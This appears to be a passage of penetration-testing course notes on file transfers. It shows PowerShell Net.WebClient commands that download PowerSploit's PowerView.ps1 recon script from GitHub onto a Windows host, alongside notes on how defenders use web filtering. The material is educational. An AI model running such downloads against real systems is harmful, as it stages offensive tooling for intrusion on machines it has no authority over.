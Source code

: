 ```sh
$ md5sum hosts 

3688374325b992def12793500307566d  hosts
```

### PowerShell Web Downloads
* Most companies allow `HTTP` and `HTTPS` outbound traffic through the firewall to allow employee productivity
* Still, defenders can use Web filtering solutions to prevent access to specific website categories, block the download of file types (like .exe), or only allow access to a list of whitelisted domains in more restricted networks
* [System.Net.WebClient](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-5.0) class can be used to download a file over `HTTP`, `HTTPS` or `FTP`

![](./Screenshots/Screenshot_2022-10-12_095239.png)

#### PowerShell DownloadFile Method
* We can specify the class name `Net.WebClient` and the method `DownloadFile` with the parameters corresponding to the URL of the target file to download and the output file name

```powershell
PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'PowerViewAsync.ps1')
```
